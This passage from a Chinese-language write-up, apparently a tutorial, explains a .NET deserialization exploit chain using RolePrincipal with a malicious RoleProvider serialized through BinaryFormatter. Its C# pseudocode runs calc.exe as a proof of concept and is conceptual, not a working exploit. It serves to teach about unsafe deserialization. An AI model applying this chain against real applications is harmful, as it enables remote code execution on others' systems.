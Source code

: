### 14.2 利用链核心组件

- **RolePrincipal**  
    `System.Security.Principal.RolePrincipal`，实现了 `IPrincipal` 接口，持有 `IRoleProvider` 对象。
- **RoleProvider**  
    可自定义实现，反序列化时可能被自动还原和调用。
- **危险属性/方法**  
    某些属性（如 `ProviderName`、`IsInRole` 等）在反序列化时会被自动访问，可能触发危险操作。

---

### 14.3 利用链条详细流程

1. **构造对象树**
     - 攻击者构造如下嵌套对象：
         ```
         RolePrincipal
                 |
                 +-- RoleProvider（恶意实现）
         ```
     - 恶意 `RoleProvider` 可实现敏感操作或命令执行。

2. **序列化与传递**
     - 使用 `BinaryFormatter` 或 `NetDataContractSerializer`，将对象树序列化为二进制数据。
     - 数据被传递到目标应用。

3. **反序列化触发链条**
     - 目标应用反序列化时，`RolePrincipal` 的属性被自动还原和访问。
     - 某些属性的 getter/setter 可能导致命令执行或敏感信息泄露。

---

### 14.4 伪代码示例

```csharp
// 恶意 RoleProvider 实现
[Serializable]
public class EvilRoleProvider : RoleProvider
{
    public override string ApplicationName { get; set; }
    public override bool IsUserInRole(string username, string roleName)
    {
        // 恶意代码执行
        System.Diagnostics.Process.Start("calc.exe");
        return false;
    }
    // 其他方法实现省略
}

// 构造 RolePrincipal，持有恶意 RoleProvider
var evilProvider = new EvilRoleProvider();
var rolePrincipal = new RolePrincipal(evilProvider);

// 序列化 rolePrincipal
var formatter = new BinaryFormatter();
formatter.Serialize(stream, rolePrincipal);

// 反序列化时触发链条
formatter.Deserialize(stream);
```

---